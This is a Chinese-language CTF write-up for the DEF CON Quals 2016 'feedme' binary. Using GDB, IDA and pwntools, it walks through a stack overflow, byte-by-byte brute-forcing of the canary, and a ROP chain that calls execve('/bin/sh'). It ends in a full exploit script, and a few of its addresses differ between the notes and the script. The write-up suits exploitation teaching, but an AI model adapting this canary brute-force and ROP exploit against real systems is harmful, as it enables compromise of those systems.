


# 2.B defcon quals 2016 feedme
checksec查看程序，可以看到我们处理的是一个32位静态编译的二进制文件，并且栈不可写，但是没有开启PIE。

```cpp
vuln@ubuntu:~/nightmare/modules/07-bof_static/dcquals16_feedme$ checksec feedme
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/vuln/nightmare/modules/07-bof_static/dcquals16_feedme/feedme'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
pwntools检查并没有开启Stack canary，是因为pwntools是通过寻找一个libc调用，而这里的程序是用别的方式编译的，所以stack canary是开启的

运行程序

```cpp
vuln@ubuntu:~/nightmare/modules/07-bof_static/dcquals16_feedme$ ./feedme
FEED ME!
1234556678
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
ATE 3233343535363637380a616161616161...
*** stack smashing detected ***: ./feedme terminated
Child exit.
FEED ME!
```
 从上面可以看出，我们的输入覆盖了stack canary，导致子程序退出，所以也就有可能造成缓冲区溢出

首先我们需要确定函数的位置

1\. 使用gdb的backtrace方法进行定位

```cpp
[#0] 0xb7fffc31 → __kernel_vsyscall()
[#1] 0x806cc02 → pop ebx
[#2] 0x804910e → mov DWORD PTR [ebp-0xc], eax   //直接到这个地址去查看所对应的函数
[#3] 0x80491da → mov eax, 0x0
[#4] 0x80493ba → mov DWORD PTR [esp], eax
[#5] 0x8048d2b → hlt 
```
从上面的地址，我们可以得到如下函数

```cpp
void sub_80490B0()
{
  unsigned __int8 v0; // al
  int v1; // [esp+10h] [ebp-18h] BYREF
  unsigned int i; // [esp+14h] [ebp-14h]
  int v3; // [esp+18h] [ebp-10h]
  int v4; // [esp+1Ch] [ebp-Ch]

  v1 = 0;
  for ( i = 0; i <= 0x31F; ++i )
  {
    v3 = sub_806CC70();
    if ( !v3 )
    {
      v0 = sub_8049036();           //FEED ME! 函数输入点
      sub_804F700("YUM, got %d bytes!\n", v0);
      return;
    }
    v4 = sub_806CBE0(v3, &v1, 0);
    if ( v4 == -1 )
    {
      sub_804FC60("Wait error!");
      sub_804ED20(-1);
    }
    if ( v1 == -1 )
    {
      sub_804FC60("Child IO error!");
      sub_804ED20(-1);
    }
    sub_804FC60("Child exit.");
    sub_804FA20(0);
  }
}
```
2\. 使用IDA查看

IDA没法找到主函数，我们可以使用IDA的搜索功能搜索FEED ME!来定位函数



F5查看反汇编后的代码

```cpp
int sub_8049036()
{
  const char *v0; // eax
  int result; // eax
  unsigned __int8 v2; // [esp+1Bh] [ebp-2Dh]
  char v3[32]; // [esp+1Ch] [ebp-2Ch] BYREF
  unsigned int v4; // [esp+3Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  sub_804FC60("FEED ME!");          //printf
  v2 = sub_8048E42();               //input
  sub_8048E7E(v3, v2);              //input
  v0 = (const char *)sub_8048F6E(v3, v2, 16);       //handle data
  sub_804F700("ATE %s\n", v0);          // output data
  result = v2;
  if ( __readgsdword(0x14u) != v4 )
    sub_806F5B0();
  return result;
}
```
使用GDB断点调试每个函数，看看具体运算结果是什么，断点下在每个函数那里，并开启多进程调试模式

```cpp
gef➤  set follow-fork-mode child
gef➤  show follow-fork-mode
Debugger response to a program call of fork or vfork is "child".
gef➤
```
查看每个函数的地址，并且下断点

```cpp
.text:08049036                 push    ebp
.text:08049037                 mov     ebp, esp
.text:08049039                 sub     esp, 48h
.text:0804903C                 mov     eax, large gs:14h
.text:08049042                 mov     [ebp+var_C], eax
.text:08049045                 xor     eax, eax
.text:08049047                 mov     dword ptr [esp], offset aFeedMe ; "FEED ME!"
.text:0804904E                 call    sub_804FC60          //printf
.text:08049053                 call    sub_8048E42          //input1, breakpoint
.text:08049058                 mov     [ebp+var_2D], al
.text:0804905B                 movzx   eax, [ebp+var_2D]
.text:0804905F                 mov     [esp+4], eax
.text:08049063                 lea     eax, [ebp+var_2C]
.text:08049066                 mov     [esp], eax
.text:08049069                 call    sub_8048E7E          // input2, breakpoint
.text:0804906E                 movzx   eax, [ebp+var_2D]
.text:08049072                 mov     dword ptr [esp+8], 10h
.text:0804907A                 mov     [esp+4], eax
.text:0804907E                 lea     eax, [ebp+var_2C]
.text:08049081                 mov     [esp], eax
.text:08049084                 call    sub_8048F6E          // handle data, breakpoint
.text:08049089                 mov     [esp+4], eax
.text:0804908D                 mov     dword ptr [esp], offset aAteS ; "ATE %s\n"
.text:08049094                 call    sub_804F700
.text:08049099                 movzx   eax, [ebp+var_2D]
.text:0804909D                 mov     edx, [ebp+var_C]
.text:080490A0                 xor     edx, large gs:14h
.text:080490A7                 jz      short locret_80490AE
.text:080490A9                 call    sub_806F5B0
```
要下断点的函数：

```cpp
.text:08049053                 call    sub_8048E42
.text:08049069                 call    sub_8048E7E
.text:08049084                 call    sub_8048F6E
```
下断点开始调试：

```cpp
//运行第一个函数，输入123456789
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049047                  mov    DWORD PTR [esp], 0x80be70c
    0x804904e                  call   0x804fc60
    0x8049053                  call   0x8048e42
 →  0x8049058                  mov    BYTE PTR [ebp-0x2d], al
    0x804905b                  movzx  eax, BYTE PTR [ebp-0x2d]
    0x804905f                  mov    DWORD PTR [esp+0x4], eax
    0x8049063                  lea    eax, [ebp-0x2c]
    0x8049066                  mov    DWORD PTR [esp], eax
    0x8049069                  call   0x8048e7e
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "feedme", stopped, reason: TEMPORARY BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049058 → mov BYTE PTR [ebp-0x2d], al
[#1] 0x80490dc → movzx eax, al
[#2] 0x80491da → mov eax, 0x0
[#3] 0x80493ba → mov DWORD PTR [esp], eax
[#4] 0x8048d2b → hlt 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  23456789
Undefined command: "23456789".  Try "help".

//从汇编代码可以看到，返回的是一个低16位的寄存器，查看该值为1的ascii码16进制
gef➤  p $al
$2 = 0x31
gef➤
```
继续看第二个函数，步入函数内：

```cpp
gef➤  s
0x08048e7e in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xbffff54c  →  0x00000000
$ebx   : 0x080481a8  →   push ebx
$ecx   : 0xbffff51b  →  0x00000139
$edx   : 0x1
$esp   : 0xbffff52c  →  0x0804906e  →   movzx eax, BYTE PTR [ebp-0x2d]
$ebp   : 0xbffff578  →  0xbffff5a8  →  0xbffff5c8  →  0x08049970  →   push ebx
$esi   : 0x0
$edi   : 0x080ea00c  →  0x08066130  →   mov edx, DWORD PTR [esp+0x4]
$eip   : 0x08048e7e  →   push ebp
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0073 $ss: 0x007b $ds: 0x007b $es: 0x007b $fs: 0x0000 $gs: 0x0033
───────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff52c│+0x0000: 0x0804906e  →   movzx eax, BYTE PTR [ebp-0x2d]       ← $esp
0xbffff530│+0x0004: 0xbffff54c  →  0x00000000       //第二个参数始终为00
0xbffff534│+0x0008: 0x00000039 ("9"?)       //第一个参数就是上个函数的返回值0x39
0xbffff538│+0x000c: 0x00000000
0xbffff53c│+0x0010: 0x0806ccb7  →   sub esp, 0x20
0xbffff540│+0x0014: 0x080ea200  →  0xfbad2887
0xbffff544│+0x0018: 0x080ea247  →  0x0eb4d40a
0xbffff548│+0x001c: 0x390ea248
─────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048e78                  movzx  eax, BYTE PTR [ebp-0xd]
    0x8048e7c                  leave
    0x8048e7d                  ret
 →  0x8048e7e                  push   ebp
    0x8048e7f                  mov    ebp, esp
    0x8048e81                  sub    esp, 0x28
    0x8048e84                  mov    eax, DWORD PTR [ebp+0xc]
    0x8048e87                  mov    DWORD PTR [ebp-0x14], eax
    0x8048e8a                  mov    DWORD PTR [ebp-0x10], 0x0
─────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "feedme", stopped, reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048e7e → push ebp
[#1] 0x804906e → movzx eax, BYTE PTR [ebp-0x2d]
[#2] 0x80490dc → movzx eax, al
[#3] 0x80491da → mov eax, 0x0
[#4] 0x80493ba → mov DWORD PTR [esp], eax
[#5] 0x8048d2b → hlt
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
然后我们结束这个函数，并输入字符：

```cpp
gef➤  c
进入下一个函数

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff41c│+0x0000: 0x0804906e  →   movzx eax, BYTE PTR [ebp-0x2d]   ← $esp
0xbffff420│+0x0004: 0xbffff43c  →  0x00000000      //第1个参数， 0x0，这里还未赋值
0xbffff424│+0x0008: 0x00000031 ("1"?)              // 第2个参数，这里是用栈来进行传递参数的，可以在汇编中看出来
                                                    /*
                                                    .text:08049058                 mov     [ebp+var_2D], al
                                                    .text:0804905B                 movzx   eax, [ebp+var_2D]
                                                    .text:0804905F                 mov     [esp+4], eax
                                                    .text:08049063                 lea     eax, [ebp+var_2C]
                                                    .text:08049066                 mov     [esp], eax
                                                    .text:08049069                 call    sub_8048E7E

                                                    sub_8048E7E(v3, v2);
                                                    */
0xbffff428│+0x000c: 0x00000000
0xbffff42c│+0x0010: 0x0806ccb7  →   sub esp, 0x20
0xbffff430│+0x0014: 0x080ea200  →  0xfbad2887
0xbffff434│+0x0018: 0x080ea247  →  0x0eb4d40a
0xbffff438│+0x001c: 0x390ea248
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048e78                  movzx  eax, BYTE PTR [ebp-0xd]
    0x8048e7c                  leave  
    0x8048e7d                  ret    
 →  0x8048e7e                  push   ebp
    0x8048e7f                  mov    ebp, esp
    0x8048e81                  sub    esp, 0x28
    0x8048e84                  mov    eax, DWORD PTR [ebp+0xc]
    0x8048e87                  mov    DWORD PTR [ebp-0x14], eax
    0x8048e8a                  mov    DWORD PTR [ebp-0x10], 0x0
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "feedme", stopped, reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048e7e → push ebp
[#1] 0x804906e → movzx eax, BYTE PTR [ebp-0x2d]
[#2] 0x80490dc → movzx eax, al
[#3] 0x80491da → mov eax, 0x0
[#4] 0x80493ba → mov DWORD PTR [esp], eax
[#5] 0x8048d2b → hlt 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

//第二个函数，输入了68个a

gef➤  finish 
Run till exit from #0  0x08048e7e in ?? ()
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x0804906e in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x31      
$ebx   : 0x080481a8  →   push ebx
$ecx   : 0xbffff43c  →  0x61616161 ("aaaa"?)
$edx   : 0x31      
$esp   : 0xbffff420  →  0xbffff43c  →  0x61616161 ("aaaa"?)
$ebp   : 0xbffff468  →  0x61616161 ("aaaa"?)
$esi   : 0x0       
$edi   : 0x080ea00c  →  0x08066130  →   mov edx, DWORD PTR [esp+0x4]
$eip   : 0x0804906e  →   movzx eax, BYTE PTR [ebp-0x2d]
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0073 $ss: 0x007b $ds: 0x007b $es: 0x007b $fs: 0x0000 $gs: 0x0033 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff420│+0x0000: 0xbffff43c  →  0x61616161    ← $esp     //保存在栈上的参数1，这里填充了输入的49个a
0xbffff424│+0x0004: 0x00000031 ("1"?)       //传入的参数2
0xbffff428│+0x0008: 0x00000000
0xbffff42c│+0x000c: 0x0806ccb7  →   sub esp, 0x20
0xbffff430│+0x0010: 0x080ea200  →  0xfbad2887
0xbffff434│+0x0014: 0x080ea247  →  0x0eb4d40a
0xbffff438│+0x0018: 0x310ea248
0xbffff43c│+0x001c: 0x61616161
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049063                  lea    eax, [ebp-0x2c]
    0x8049066                  mov    DWORD PTR [esp], eax
    0x8049069                  call   0x8048e7e
 →  0x804906e                  movzx  eax, BYTE PTR [ebp-0x2d]
    0x8049072                  mov    DWORD PTR [esp+0x8], 0x10
    0x804907a                  mov    DWORD PTR [esp+0x4], eax
    0x804907e                  lea    eax, [ebp-0x2c]
    0x8049081                  mov    DWORD PTR [esp], eax
    0x8049084                  call   0x8048f6e
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "feedme", stopped, reason: TEMPORARY BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804906e → movzx eax, BYTE PTR [ebp-0x2d]
[#1] 0x8049061 → and al, 0x4
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  aaaaaaaaaaaaaaaaaaa
Undefined command: "aaaaaaaaaaaaaaaaaaa".  Try "help".

//最终只有 49 个a输入了，19个多余出来的，从上面的结果来看，传入这个函数的其中一个参数为0x31=49，所以判断，第一个参数指定了获取字符串长度的值。

//也可以从内存中查看
gef➤  x/20w 0xbffff420
0xbffff420: 0xbffff43c  0x31    0x10    0x806ccb7
0xbffff430: 0x80ea200   0x80ea247   0x310ea248  0x61616161
0xbffff440: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff450: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff460: 0x61616161  0x61616161  0x61616161  0x8049061
//总共49个0x61
```
然后继续运行

```cpp
第三个函数执行完，返回了一个地址
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff420│+0x0000: 0xbffff43c  →  0x61616161    ← $esp
0xbffff424│+0x0004: 0x00000031 ("1"?)
0xbffff428│+0x0008: 0x00000010
0xbffff42c│+0x000c: 0x0806ccb7  →   sub esp, 0x20
0xbffff430│+0x0010: 0x080ea200  →  0xfbad2887
0xbffff434│+0x0014: 0x080ea247  →  0x0eb4d40a
0xbffff438│+0x0018: 0x310ea248
0xbffff43c│+0x001c: 0x61616161
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804907e                  lea    eax, [ebp-0x2c]
    0x8049081                  mov    DWORD PTR [esp], eax
    0x8049084                  call   0x8048f6e
 →  0x8049089                  mov    DWORD PTR [esp+0x4], eax
    0x804908d                  mov    DWORD PTR [esp], 0x80be715
    0x8049094                  call   0x804f700
    0x8049099                  movzx  eax, BYTE PTR [ebp-0x2d]
    0x804909d                  mov    edx, DWORD PTR [ebp-0xc]
    0x80490a0                  xor    edx, DWORD PTR gs:0x14
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "feedme", stopped, reason: TEMPORARY BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049089 → mov DWORD PTR [esp+0x4], eax
[#1] 0x8049061 → and al, 0x4
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $eax
$1 = 0x80ebf40

我们查看下这个地址上的数据

gef➤  x/20w 0x80ebf40
0x80ebf40:  0x31363136  0x31363136  0x31363136  0x31363136
0x80ebf50:  0x31363136  0x31363136  0x31363136  0x31363136
0x80ebf60:  0x2e2e2e    0x0 0x0 0x0
0x80ebf70:  0x0 0x0 0x0 0x0
0x80ebf80:  0x0 0x0 0x0 0x0

可以看到返回了一个16字节的字符
```
从上面的分析可以判断出，这个程序从我们的输入中先获取一个数字，计算出要获取的字节数，然后传入到第二个函数，第二个函数获取指定长度的字符，第三个函数对得到的字符进行处理并且返回一个地址。现在我们来看看是哪个程序在调用FEED ME这个程序，使用IDA来查看得到如下函数

```cpp
void sub_80490B0()
{
  unsigned __int8 v0; // al
  int v1; // [esp+10h] [ebp-18h] BYREF
  unsigned int i; // [esp+14h] [ebp-14h]
  int v3; // [esp+18h] [ebp-10h]
  int v4; // [esp+1Ch] [ebp-Ch]

  v1 = 0;
  for ( i = 0; i <= 0x31F; ++i )
  {
    v3 = sub_806CC70();
    if ( !v3 )
    {
      v0 = sub_8049036();
      sub_804F700("YUM, got %d bytes!\n", v0);
      return;
    }
    v4 = sub_806CBE0(v3, &v1, 0);
    if ( v4 == -1 )
    {
      sub_804FC60("Wait error!");
      sub_804ED20(-1);
    }
    if ( v1 == -1 )
    {
      sub_804FC60("Child IO error!");
      sub_804ED20(-1);
    }
    sub_804FC60("Child exit.");
    sub_804FA20(0);
  }
}
```
这个函数进行循环调用，判断i是否小于799，调用FEEDME 800次，这就给我们足够的机会爆破stack canary，从上面程序可以看出，如果stack canary正确，子程序不会推出，而是正常向下执行输出YUM, got %d bytes!

现在我们来算下我们的输入（第二个输入）和eip和stack canary之间的字节数，使用IDA可以直接判断出第二个输入点和EIP之间相差48



0x2c + 4 = 48，接下来要查找stack canary的值，在x86中，stack canary 是一个4字节的随机数，最低位为0x00

下断点0x08049069

```cpp
gef➤  set follow-fork-mode child
gef➤  b *0x08049069
Breakpoint 1 at 0x8049069
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff420│+0x0000: 0xbffff43c  →  0x00000000    ← $esp     //第二个参数
0xbffff424│+0x0004: 0x00000031 ("1"?)                       //第一个参数 
0xbffff428│+0x0008: 0x00000000
0xbffff42c│+0x000c: 0x0806ccb7  →   sub esp, 0x20
0xbffff430│+0x0010: 0x080ea200  →  0xfbad2887
0xbffff434│+0x0014: 0x080ea247  →  0x0eb4d40a
0xbffff438│+0x0018: 0x310ea248
0xbffff43c│+0x001c: 0x00000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804905f                  mov    DWORD PTR [esp+0x4], eax
    0x8049063                  lea    eax, [ebp-0x2c]
    0x8049066                  mov    DWORD PTR [esp], eax
 →  0x8049069                  call   0x8048e7e
   ↳   0x8048e7e                  push   ebp
       0x8048e7f                  mov    ebp, esp
       0x8048e81                  sub    esp, 0x28
       0x8048e84                  mov    eax, DWORD PTR [ebp+0xc]
       0x8048e87                  mov    DWORD PTR [ebp-0x14], eax
       0x8048e8a                  mov    DWORD PTR [ebp-0x10], 0x0
──────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x8048e7e (
)


gef➤  i f
Stack level 0, frame at 0xbffff470:
 eip = 0x8049069; saved eip = 0x80490dc
 called by frame at 0xbffff4a0
 Arglist at 0xbffff468, args: 
 Locals at 0xbffff468, Previous frame's sp is 0xbffff470
 Saved registers:
  ebp at 0xbffff468, eip at 0xbffff46c

gef➤  x/50w 0xbffff43c
0xbffff43c: 0x0 0x2710  0x0 0x0
0xbffff44c: 0x0 0x80ea0a0   0x0 0x0
0xbffff45c: 0x18161900  0x0 0x80ea00c   0xbffff498      //stack canary 0x18161900
0xbffff46c: 0x80490dc   0x80ea0a0   0x0 0x80ed840
0xbffff47c: 0x804f8b4   0x0 0x0 0x0
0xbffff48c: 0x80481a8   0x80481a8   0x0 0xbffff4b8
0xbffff49c: 0x80491da   0x80ea0a0   0x0 0x2
0xbffff4ac: 0x0 0x0 0x80ea00c   0x8049970
0xbffff4bc: 0x80493ba   0x1 0xbffff544  0xbffff54c
0xbffff4cc: 0x0 0x0 0x80481a8   0x0
0xbffff4dc: 0x80ea00c   0x8049970   0x765d2e28  0x80925f47
0xbffff4ec: 0x0 0x0 0x0 0x0
0xbffff4fc: 0x0 0x0

```
从上面可以看出，我们的输入（也就是第二个参数）的地址为0xbffff43c，而eip的地址为0xbffff46c。从这里可以看到stack canary的值为0x18161900，在地址0xbffff45c上

所以输入到eip的字节数为48， 输入到stack canary为32

接下来就可以构造exp了，首先是爆破stack canary，然后就是构造ROP

爆破canary

```cpp
def breakCanary:
    correct_canary = "00"
    known_canary = '\x00'
    input_byte = 0x22
    canary_byte = 0x0
    for i in range(0, 3):
        for j in xrange(0xff):
            target.send(p32(input_byte)[0])     # input the number
            target.send('\x00'*0x20 + known_canary + p32(canary_byte)[0])
            output = target.recvuntil('exit.')
            if 'YUM' in output:
                print('next canary is ' + hex(canary_byte))
                known_canary = known_canary + p32(canary_byte)[0]
                input_byte = input_byte + 0x1
                new_canary = hex(canary_byte)
                new_canary = new_canary.replace('0x', '')
                correct_canary = new_canary + correct_canary
                canary_byte = 0x0
                break
            else:
                canary_byte = canary_byte + 0x1
    return int(correct_canary, 16)
```
找一个可以写入/bin/sh的地址0x80eb928

```cpp
gef➤  vmmap 
Start      End        Offset     Perm Path
0x08048000 0x080e9000 0x00000000 r-x /home/vuln/nightmare/modules/07-bof_static/dcquals16_feedme/feedme
0x080e9000 0x080eb000 0x000a0000 rw- /home/vuln/nightmare/modules/07-bof_static/dcquals16_feedme/feedme
0x080eb000 0x0810f000 0x00000000 rw- [heap]
0xb7ffc000 0xb7fff000 0x00000000 r-- [vvar]
0xb7fff000 0xb8000000 0x00000000 r-x [vdso]
0xbffdf000 0xc0000000 0x00000000 rw- [stack]

gef➤  x/50w 0x80eb928
0x80eb000:  0x0 0x0 0x0 0x0
0x80eb010:  0x0 0x0 0x0 0x0
0x80eb020:  0x0 0x0 0x0 0x0
0x80eb030:  0x0 0x0 0x0 0x0
0x80eb040:  0x0 0x0 0x0 0x0
0x80eb050:  0x0 0x0 0x0 0x0
0x80eb060:  0x0 0x0 0x0 0x0
0x80eb070:  0x0 0x0 0x0 0x0
0x80eb080:  0x0 0x0 0x0 0x0
0x80eb090:  0x0 0x0 0x0 0x0
0x80eb0a0:  0x0 0x0 0x0 0x0
0x80eb0b0:  0x0 0x0 0x0 0x0
0x80eb0c0:  0x0 0x0
```
构造ROP

```cpp
0x080bb496 : pop eax ; ret
0x0804846f : pop edi ; ret
0x0806f34a : pop edx ; ret
0x08049dd5 : pop esi ; ret
0x0809a7ed : mov dword ptr [edx], eax ; ret
0x0806328d : syscall
0x0806f371 : pop ecx ; pop ebx ; ret

//汇编代码如下
//因为是32位小端系统，每个寄存器只能存放4 bytes，所以/bin/sh要分开写入到地址，低地址在前面，高地址在后面
pop eax ; ret
'/bin'  0x6e69622f
pop edx ; ret
0x80eb928
mov dword ptr [edx], eax; ret

pop eax ; ret
'/sh\x00'   0x0068732f
pop edx ; ret
0x080eb000 + 0x4
mov dword ptr [edx], eax; ret

//syscall
pop eax ; ret
0xb
pop ecx ; pop ebx ; ret
0x80eb928
0x0
pop edx ; ret
0x0
syscall

```
完整exp：

```cpp
#!/usr/bin/python

from os import write
from pwn import *

target = process('./feedme')

def breakCanary():
    correct_canary = "00"
    known_canary = '\x00'
    input_byte = 0x22
    canary_byte = 0x0
    for i in range(0, 3):
        for j in xrange(0xff):
            target.send(p32(input_byte)[0])     # input the number
            target.send('\x00'*0x20 + known_canary + p32(canary_byte)[0])
            output = target.recvuntil('exit.')
            if 'YUM' in output:
                print('next canary is ' + hex(canary_byte))
                known_canary = known_canary + p32(canary_byte)[0]
                input_byte = input_byte + 1
                new_canary = hex(canary_byte)
                new_canary = new_canary.replace('0x', '')
                correct_canary = new_canary + correct_canary
                canary_byte = 0x0
                break
            else:
                canary_byte = canary_byte + 0x1
    return int(correct_canary, 16)


canary = breakCanary()
payload = '\x00' * 0x20
payload += p32(canary)
payload += '\x00' * 12
popeax = p32(0x080bb496)
popedi = p32(0x0804846f)
popedx = p32(0x0806f34a)
popesi = p32(0x08049dd5)
write = p32(0x0809a7ed)
syscall = p32(0x0806328d)
shelladdr = 0x80eb928
mybin = 0x6e69622f
sh = 0x0068732f

payload += popeax
payload += p32(mybin)
payload += popedx
payload += p32(shelladdr)
payload += write

payload += popeax
payload += p32(sh)
payload += popedx
payload += p32(shelladdr + 0x4)
payload += write

payload += p32(0x080bb496)      # pop eax ; ret
payload += p32(0xb)                     # 11
payload += p32(0x0806f371)      # pop ecx ; pop ebx ; ret
payload += p32(0x0)                     # 0x0
payload += p32(0x80eb928)       # bss address
payload += p32(0x0806f34a)      # pop edx ; ret
payload += p32(0x0)                     # 0x0
payload += p32(0x8049761)       # syscall

plen = len(payload)
print(plen)
target.send(p32(plen)[0])
target.send(payload)
target.interactive()
```